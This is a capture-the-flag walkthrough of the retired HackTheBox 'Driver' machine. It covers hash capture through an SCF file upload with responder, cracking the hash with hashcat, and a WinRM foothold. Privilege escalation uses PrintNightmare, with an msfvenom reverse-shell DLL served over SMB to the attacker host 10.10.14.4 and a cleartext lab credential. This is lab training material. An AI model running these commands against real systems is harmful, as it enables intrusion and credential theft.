 *2021-10-28*

*kimm3*

# Walkthrough: Driver
Platform: HackTheBox

Difficulty: Easy

Uploaded after retirement.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.11.106; ping $IP
```

(Machine responds to ICMP echo)
## Scans and enumeration
`sudo nmap $IP -p- -Pn -v -A -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20211028072800526.png)

HTTP, SMB and WinRM open.

![mfp](assets/markdown-img-paste-20211028072322843.png)

![mfp-login](assets/markdown-img-paste-20211028072355308.png)

HTTP-AUTH is active for the site. No credentials gives us no access. Some very default/common credentials gets us into the site.

![fw-upload](assets/markdown-img-paste-20211028072502283.png)

There's an upload page, '/fw_up.php'. No repsonse when uploading a file - returns to the same page. The text says that it uploads to a share, probably the SMB share.

![smb-denied](assets/markdown-img-paste-20211028072824254.png)

Access denied without password on SMB.

## Foothold
Did a bunch of directyory searches/web fuzzing to try to find a upload folder, but there's no way to trigger a shell by simply uploading it and trigger it via HTTP. Instead, a SFC attack did the trick:

![burp-upload](assets/markdown-img-paste-20211028082634739.png)

Upload a file with contents as in the red text. Filename should start with '@' to get displayed at top, and end with '.sfc' extension. Whenever a user opens this in explorer, it will try to get an icon at the address we specified.

Start responder to capture the hash.

`responder -I tun0`

![hash-captured](assets/markdown-img-paste-20211028082703283.png)

![hashid](assets/markdown-img-paste-20211028083122784.png)

Hash captured and is valid NetNTLMv2, crack it with hashcat:

`hashcat -a 0 -m 5600 creds/tonyhash sl/Passwords/Leaked-Databases/rockyou.txt`

![cracked](assets/markdown-img-paste-20211028083333180.png)

WinRM is enabled on default http port 5985, we can use this to get a shell.

![winrm](assets/markdown-img-paste-20211028083425612.png)

![usertxt](assets/markdown-img-paste-20211028083603393.png)

## Further enumeration
![users](assets/markdown-img-paste-2021102808380213.png)

Two more users active, Mario and Administrator, they're both in admin group.

![upload-winpeas](assets/markdown-img-paste-20211028132347980.png)

Used winPEAS to do further enumeration. The job that probably triggered the sfc file is under tonys appdata folder. Did some further research but decided not to touch so that we don't mess things up for other users.

![wp-scheduled](assets/markdown-img-paste-20211028132900473.png)

![firmware-task](assets/markdown-img-paste-20211028133657770.png)

![accesschk-job](assets/markdown-img-paste-20211028134347480.png)

#### You might have to reset the box
The whole box hints you that the PrintNightmare hack could be possible. However when I checked the 'Spooler' service, which is required, it was stopped and we didn't have privileges to start it, so contiuned to enumerate/research. After some time, I tried to reset the box and checked the Spooler service, and it was running.

The service will stop if someone uses this exploit, if they don't start it manually again, it won't work for other users.

![spooler](assets/markdown-img-paste-20211029032044111.png)

## Privilege Escalation
Tried [this](https://github.com/calebstewart/CVE-2021-1675) first, a ps1 script for printnightmare, but we can't run scripts from our shell.

![no-scripts](assets/markdown-img-paste-2021102901311325.png)

[This](https://github.com/cube0x0/CVE-2021-1675) might let us do it remotely with SMB. Follow the steps in the readme.

![rpcdump](assets/markdown-img-paste-2021102903251484.png)

Check if exploit is possible.

Start SMB-server of choice, hosting a dll reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f dll -o upload/glhf.dll
smbserver.py -ip 10.10.14.4 -port 445 upload upload
```

![smbserverpy](assets/markdown-img-paste-20211029033447613.png)

Check if server is working properly, and run exploit:

```
nc -lvnp 443
python3 upload/CVE-2021-1675/CVE-2021-1675.py tony:liltony@10.10.11.106 '\\10.10.14.4\upload\glhf.dll'
```

![cve-error](assets/markdown-img-paste-20211029033954222.png)

![smb-connect](assets/markdown-img-paste-2021102903405766.png)

The error and server output is normal and the revshell will work.

![roottxt](assets/markdown-img-paste-20211029040731115.png)

We got system and root flag.

## Comments
To get consistency on box(and be polite to other users if shared) start Spooler service again after you get a SYSTEM shell.

![spooler-stopped](assets/markdown-img-paste-20211029040915902.png)

![norpcdump](assets/markdown-img-paste-2021102904281653.png)

Service stopped after exploit, no output from rpcdump.py.

![netstartspooler](assets/markdown-img-paste-20211029042929665.png)

![rpcupagain](assets/markdown-img-paste-20211029042916846.png)

Started service, and it's responding again.
